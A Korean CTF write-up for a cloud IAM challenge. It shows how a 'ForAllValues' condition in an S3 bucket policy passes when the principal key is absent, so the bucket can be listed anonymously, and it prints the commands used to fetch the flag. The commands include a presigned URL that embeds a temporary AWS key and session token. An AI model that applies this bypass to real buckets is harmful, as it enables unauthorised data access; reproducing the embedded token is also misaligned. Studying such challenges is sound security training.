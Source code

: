 # Q.

We learned from our mistakes from the past. Now our bucket only allows access to one specific admin user. Or does it?

```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321/*"
        },
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:ListBucket",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321",
            "Condition": {
                "StringLike": {
                    "s3:prefix": "files/*"
                },
                "ForAllValues:StringLike": {
                    "aws:PrincipalArn": "arn:aws:iam::133713371337:user/admin"
                }
            }
        }
    ]
}
```

# A.

```
> aws s3 ls s3://thebigiamchallenge-admin-storage-abf1321/files/ --no-sign-request
2023-06-07 19:15:43         42 flag-as-admin.txt
2023-06-08 19:20:01      81889 logo-admin.png

> aws s3 presign s3://thebigiamchallenge-admin-storage-abf1321/files/flag-as-admin.txt --no-sign-request
https://thebigiamchallenge-admin-storage-abf1321.s3.amazonaws.com/files/flag-as-admin.txt?AWSAccessKeyId=ASIAZSFITKRS64HXSGAE&Signature=QOkfEPGbV4R%2BSiEZ1jJOGFVGH5k%3D&x-a
mz-security-token=IQoJb3JpZ2luX2VjEH8aCXVzLWVhc3QtMSJGMEQCIGe0t4eNwnzfgV4NFrP2KIpvb%2BAliAAdBAjB7WScIkuQAiA44luuToe2tCCJHoYNhh6z848n7n%2FiTYVagzY9SrsYZyrvAgjY%2F%2F%2F%2F%2
F%2F%2F%2F%2F%2F8BEAAaDDY1NzQ4MzU4NDYxMyIMIdHEl7kAhyE39AOaKsMCNa0dfq%2Bt2LIKXNBEUZJCRv9a5IUqqszMoi%2Bdb2%2BSa6ZJIrRy5EeMQQ2n9Ny4Iq5gPBkNBbJjsH7cwjRW%2B1x0Ls1gJnGmxQ8Hk%2FY%
2B8Ww8zor13sKTG98za9KYIwe4h4vDyvo1jPt4K4jgByluSPIVe006H8Auev5CcOyukAvKC7ReD475WjSnJdPj2lg4zdireteYnC99CZ1AiCRj8gnfbcCvJX91CZfiGP5RvPyXifloLr8VT8lby7%2FolhYcibf7x1yjNGbTkWlL
e0f3sNpkSk%2BWMEPxLxWtQgpzeKOtOSXWXWwTQUf6BwOou7q2wXuxfqMn3pb%2FMrseO7zvkTgeXKP%2Bj8dlaSF%2FPsa6arACS%2Bd1RNN6YkSsRygZrD3W2l0f0dlzWLowFdy5VopSpgSAE0YKPRynEE1n4MhUoVcTaweAyb
gwx%2BK0uAY6nwG%2BDL%2FxwpI1y9TogjJ5FvasTbxOnzUtb%2BySr0mfgCuHeLOl5QUbQ3sC8Hx5iWo1QYSAONQIQ0SvFstFint5VTvMK0S5vrQJV77Lp9wv6TbqCkD9ne9urjIauN324%2Fktr0%2BszqlbpzUAD72ZI%2Bsn
fx02OkOVu6Wewe4zZbv9D2Va4NTM0hYg2WJxW0EeV8aM6G64HgfwB3Q%2FgD9IqUk93ng%3D&Expires=1728923150

> curl https://thebigiamchallenge-admin-storage-abf1321.s3.amazonaws.com/files/flag-as-admin.txt?AWSAccessKeyId=ASIAZSFITKRS64HXSGAE&Signature=QOkfEPGbV4R%2BSiEZ1jJOGFVGH5k
%3D&x-a
mz-security-token=IQoJb3JpZ2luX2VjEH8aCXVzLWVhc3QtMSJGMEQCIGe0t4eNwnzfgV4NFrP2KIpvb%2BAliAAdBAjB7WScIkuQAiA44luuToe2tCCJHoYNhh6z848n7n%2FiTYVagzY9SrsYZyrvAgjY%2F%2F%2F%2F%2
F%2F%2F%2F%2F%2F8BEAAaDDY1NzQ4MzU4NDYxMyIMIdHEl7kAhyE39AOaKsMCNa0dfq%2Bt2LIKXNBEUZJCRv9a5IUqqszMoi%2Bdb2%2BSa6ZJIrRy5EeMQQ2n9Ny4Iq5gPBkNBbJjsH7cwjRW%2B1x0Ls1gJnGmxQ8Hk%2FY%
2B8Ww8zor13sKTG98za9KYIwe4h4vDyvo1jPt4K4jgByluSPIVe006H8Auev5CcOyukAvKC7ReD475WjSnJdPj2lg4zdireteYnC99CZ1AiCRj8gnfbcCvJX91CZfiGP5RvPyXifloLr8VT8lby7%2FolhYcibf7x1yjNGbTkWlL
e0f3sNpkSk%2BWMEPxLxWtQgpzeKOtOSXWXWwTQUf6BwOou7q2wXuxfqMn3pb%2FMrseO7zvkTgeXKP%2Bj8dlaSF%2FPsa6arACS%2Bd1RNN6YkSsRygZrD3W2l0f0dlzWLowFdy5VopSpgSAE0YKPRynEE1n4MhUoVcTaweAyb
gwx%2BK0uAY6nwG%2BDL%2FxwpI1y9TogjJ5FvasTbxOnzUtb%2BySr0mfgCuHeLOl5QUbQ3sC8Hx5iWo1QYSAONQIQ0SvFstFint5VTvMK0S5vrQJV77Lp9wv6TbqCkD9ne9urjIauN324%2Fktr0%2BszqlbpzUAD72ZI%2Bsn
fx02OkOVu6Wewe4zZbv9D2Va4NTM0hYg2WJxW0EeV8aM6G64HgfwB3Q%2FgD9IqUk93ng%3D&Expires=1728923150
{wiz:principal-arn-is-not-what-you-think}
```

# 풀이 설명

[다중 값 컨텍스트 키](https://docs.aws.amazon.com/ko_kr/IAM/latest/UserGuide/reference_policies_condition-single-vs-multi-valued-context-keys.html#reference_policies_condition-multi-valued-context-keys)

> ForAllValues : 요청 집합의 모든 멤버 값이 조건 컨텍스트 키 집합의 하위 집합인지 여부를 테스트합니다. 요청의 모든 컨텍스트 키 값이 정책에 있는 하나 이상의 컨텍스트 키 값과 일치하면 조건이 true를 반환합니다. **요청에 컨텍스트 키가 없거나 컨텍스트 키 값이 빈 문자열과 같은 null 데이터세트로 확인되는 경우에도 true를 반환합니다.** ...

> --no-sign-request : 해당 버킷에 퍼블릭 액세스가 가능할때 인증없이 접근 가능

- `ForAllValues`의 경우 값이 없는 경우 true로 되는 허점을 이용해서 `--no-sign-request` 옵션으로 인증(principal)을 무시할 수 있다.  
  `--no-sign-request`는 알았는데 이걸 `ForAllValues`의 경우에서 함께 사용해서 보안취약점을 노린다는게 너무 신기하다.
